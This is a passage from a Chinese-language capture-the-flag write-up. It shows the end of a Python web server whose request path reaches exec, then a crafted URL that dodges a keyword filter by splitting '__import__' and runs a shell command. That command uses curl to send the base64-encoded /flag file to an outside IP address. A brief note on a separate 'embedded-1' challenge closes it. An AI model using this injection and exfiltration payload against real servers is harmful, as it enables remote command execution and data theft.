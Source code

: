 ```python
            print(requested+str(os.path.isfile(requested)))
            if os.path.isfile(requested):
                mime = mimetypes.guess_type(requested)
                mime = (mime if mime[0] != None else "text/html")
                mime = MIMES[requested.split(".")[-1]]
                try:
                    with open(requested, "rb") as f:
                        data = f.read()
                except:
                    with open(requested, "rb") as f:
                        data = f.read()
                status = "200"
            else:
                errorPage = os.path.join(docRoot, "errors", "404.html")
                print(errorPage)
                mime = "text/html"
                with open(errorPage, "rb") as f:
                    data = f.read()
                status = "404"
        except Exception as e:
            #print(e)
            errorPage = os.path.join(docRoot, "errors", "500.html")
            mime = "text/html"
            with open(errorPage, "rb") as f:
                data = f.read()
            status = "500"
        return {"body": data, "mime": mime, "status": status}

if __name__ == '__main__':
    Server("0.0.0.0",7777).listen()
```

关键点在exec那句话，程序会将path放在exec命令中执行，我们就需要构造path，绕过waf对import、方括号、builtins和竖线的过滤。

```text
http://10.38.202.214:7777/'+str(eval('__im'+'port__("os").system("curl http://10.167.90.69:1337/hello/$(cat /flag | base64)")'))+'
```

通过字符串连接将import隔开，通过访问远程路径的方式，将信息传输出去。

这个题目可以在本地起服务，慢慢调试。

## embedded-1 躲猫猫

文件打开，在最后发现了flag信息，这两块的****的内容可以相互补充。
